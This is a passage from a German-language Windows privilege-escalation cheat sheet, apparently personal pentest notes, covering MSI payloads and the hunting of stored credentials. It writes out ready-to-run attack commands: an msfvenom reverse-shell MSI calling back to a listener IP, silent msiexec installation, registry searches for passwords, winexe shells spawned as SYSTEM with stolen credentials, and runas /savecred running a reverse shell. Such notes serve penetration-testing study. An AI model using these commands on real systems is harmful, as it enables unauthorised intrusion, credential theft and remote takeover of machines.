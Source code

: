 <img src="https://user-images.githubusercontent.com/33549572/88439516-baabba00-ce0b-11ea-85ba-4045fc974151.png" alt="image-20200724141704950" style="zoom:67%;" />

Payload generieren:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.225 LPORT=53 -f msi -o reverse.msi
```

Anschließend Listener starten und File auf System kopieren/ausführen:

```bash
copy \\IP\SHARE\reverse.msi .
msiexec /quiet /qn /i reverse.msi
```

## Passwords

Passwörter werden oft unsicher gespeichert. 

#### Registry

Software speichert gern Passwörter in der Registry. Diese könnten wie folgt gefunden werden:

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Da dies extrem viele Einträge ausgibt, lieber in winPEAS suchen (winPEAS.exe)

Wenn Credentials gefunden wurden, könnte von Linux aus eine Shell gespawned werden (bei Admin Credentials sogar als SYSTEM!)

```bash
#Als entsprechender User
winexe -U 'USER%PASS' //WinIP cmd.exe
#Als SYSTEM
winexe -U 'USER%PASS' --system //WinIP cmd.exe
```

<img src="https://user-images.githubusercontent.com/33549572/88439539-c7301280-ce0b-11ea-907c-ecbb287b5a82.png" alt="image-20200724143546112" style="zoom:80%;" />

#### Saved Creds

Windows kann mit **runas** u.U. Befehle als Admin ausführen:

```bash
#Zunächst Benutzer mit gespeicherten Credentials anzeigen
cmdkey /list
#Nun als User ausführen
runas /savecred /user:admin C:\reverse.exe
```

#### Configuration Files

Administratoren könnten Config Files mit Credentials am System speichern/vergessen. Beispiel hierfür: **Unattend.xml** (hier Base64 encoded)
